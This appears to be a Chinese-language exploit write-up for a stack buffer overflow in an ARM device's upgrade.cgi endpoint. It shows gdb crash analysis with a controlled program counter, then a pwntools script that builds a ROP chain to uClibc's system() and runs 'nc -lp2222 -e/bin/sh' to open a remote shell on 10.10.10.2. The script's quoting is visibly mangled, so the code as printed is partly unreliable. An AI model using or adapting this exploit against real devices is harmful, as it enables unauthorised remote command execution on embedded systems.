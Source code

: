 直接c运行，在另一个窗口向端口发送poc，查看一下崩溃时候的栈环境。

	gdb-peda$ c
	Continuing.
	Program received signal SIGSEGV, Segmentation fault.
	Python Exception <type 'exceptions.AttributeError'> 'module' object has no attribute 'objfiles':
	0x58585858 in ?? ()
	gdb-peda$ i reg
	r0 0x1 0x1
	r1 0x46058 0x46058
	r2 0x0 0x0
	r3 0x75 0x75
	r4 0x42424242 0x42424242
	r5 0x43434343 0x43434343
	r6 0x44444444 0x44444444
	r7 0x45454545 0x45454545
	r8 0x46464646 0x46464646
	r9 0x47474747 0x47474747
	r10 0x48484848 0x48484848
	r11 0x49494949 0x49494949
	r12 0x1 0x1
	sp 0x7effeb80 0x7effeb80
	lr 0x18474 0x18474
	pc 0x58585858 0x58585858
	cpsr 0x60000010 0x60000010
	fpscr 0x0 0x0
	gdb-peda$ x/64 0x7effeb80
	0x7effeb80: 0x726e726e 0x0 0x4 0x37e6c
	0x7effeb90: 0x37dd8 0x36b00 0x31928 0x37e88
	0x7effeba0: 0x37e5c 0x1cd58 0x7effebcc 0x7472
	0x7effebb0: 0x3 0x4 0x0 0x3
	0x7effebc0: 0x0 0x4 0x0 0x9
	0x7effebd0: 0x448a2 0x0 0x0 0x0
	0x7effebe0: 0x0 0x0 0x0 0x0
	0x7effebf0: 0x0 0x0 0x0 0x0
	0x7effec00: 0x6f6f722f 0x65732f74 0x69727563 0x722f7974
	0x7effec10: 0x72656665 0x522f7265 0x63784563 0x69747065
	0x7effec20: 0x6f486e6f 0x692f7473 0x616e2f32 0x656d
	0x7effec30: 0x0 0x0 0x0 0x0
	0x7effec40: 0x0 0x0 0x0 0x0
	0x7effec50: 0x0 0x0 0x0 0x0
	0x7effec60: 0x0 0x0 0x0 0x0
	0x7effec70: 0x0 0x0 0x0 0x0
	gdb-peda$ x/64s 0x7effeb80
	0x7effeb80: "nrnr"
	0x7effeb85: ""

可以看到崩溃时候的pc值为0x58585858也就是”XXXX”，sp为0x7effeb80，而这个栈空间的值正好是poc中最胡的nrnr，所以我们只要把需要执行的命令放在最后然后把其所在的栈空间存到R0被system调用即可。

	exp：
	from pwn import *
	from os import *
	lib_addr=0x76e99000 #libuClibc-0.9.33.3-git.so的基址
	system_addr=lib_addr+0x47ab0 #system的地址
	pop_addr=lib_addr+0x00048784 #pop {r1, pc}
	mov_addr=lib_addr+0x00016aa4 #mov r0, r1 ; pop {r4, r5, pc}
	stack_addr=0x7effeb80 #崩溃时sp地址
	payload="echo -en "POST /cgi-bin/admin/upgrade.cgi HTTP/1.0nContent-Length:"
	payload+='a'*0x34+p32(pop_addr)+p32(stack_addr+20)+p32(mov_addr)+'a'*8+p32(system_addr)+"nc -lp2222 -e/bin/sh >nrnrn" | nc -v 10.10.10.2 80" #这里把崩溃地址还+20的原因是本身4个字节再加上mov，a*8，system的16个字节，一共20个字节。
	print(payload)
	os.system(payload)
